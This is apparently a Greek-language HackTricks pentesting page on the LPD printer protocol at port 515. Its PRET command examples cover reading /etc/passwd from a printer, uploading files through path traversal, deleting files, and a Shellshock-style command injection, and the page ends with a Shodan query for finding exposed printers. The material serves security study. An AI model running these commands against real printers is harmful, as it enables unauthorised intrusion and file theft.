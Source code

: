 {{#include ../banners/hacktricks-training.md}}

### **Εισαγωγή στο Πρωτόκολλο LPD**

Στη δεκαετία του 1980, το **πρωτόκολλο Line Printer Daemon (LPD)** αναπτύχθηκε στο Berkeley Unix, το οποίο αργότερα τυποποιήθηκε μέσω του RFC1179. Αυτό το πρωτόκολλο λειτουργεί μέσω της θύρας 515/tcp, επιτρέποντας αλληλεπιδράσεις μέσω της εντολής `lpr`. Η ουσία της εκτύπωσης μέσω LPD περιλαμβάνει την αποστολή ενός **αρχείου ελέγχου** (για να καθορίσει λεπτομέρειες εργασίας και χρήστη) μαζί με ένα **αρχείο δεδομένων** (το οποίο περιέχει τις πληροφορίες εκτύπωσης). Ενώ το αρχείο ελέγχου επιτρέπει την επιλογή **διαφορετικών μορφών αρχείων** για το αρχείο δεδομένων, η διαχείριση αυτών των αρχείων καθορίζεται από την συγκεκριμένη υλοποίηση LPD. Μια ευρέως αναγνωρισμένη υλοποίηση για συστήματα τύπου Unix είναι το **LPRng**. Αξιοσημείωτο είναι ότι το πρωτόκολλο LPD μπορεί να εκμεταλλευτεί για την εκτέλεση **κακόβουλου PostScript** ή **εργασιών εκτύπωσης PJL**.

### **Εργαλεία για Αλληλεπίδραση με Εκτυπωτές LPD**

[**PRET**](https://github.com/RUB-NDS/PRET) εισάγει δύο βασικά εργαλεία, το `lpdprint` και το `lpdtest`, προσφέροντας μια απλή μέθοδο για αλληλεπίδραση με εκτυπωτές συμβατούς με LPD. Αυτά τα εργαλεία επιτρέπουν μια σειρά ενεργειών από την εκτύπωση δεδομένων μέχρι τη χειρισμό αρχείων στον εκτυπωτή, όπως η λήψη, η αποστολή ή η διαγραφή:
```python
# To print a file to an LPD printer
lpdprint.py hostname filename
# To get a file from the printer
lpdtest.py hostname get /etc/passwd
# To upload a file to the printer
lpdtest.py hostname put ../../etc/passwd
# To remove a file from the printer
lpdtest.py hostname rm /some/file/on/printer
# To execute a command injection on the printer
lpdtest.py hostname in '() {:;}; ping -c1 1.2.3.4'
# To send a mail through the printer
lpdtest.py hostname mail lpdtest@mailhost.local
```
Για άτομα που ενδιαφέρονται να εξερευνήσουν περαιτέρω τον τομέα του **printer hacking**, μια ολοκληρωμένη πηγή μπορεί να βρεθεί εδώ: [**Hacking Printers**](http://hacking-printers.net/wiki/index.php/Main_Page).

# Shodan

- `port 515`

{{#include ../banners/hacktricks-training.md}}
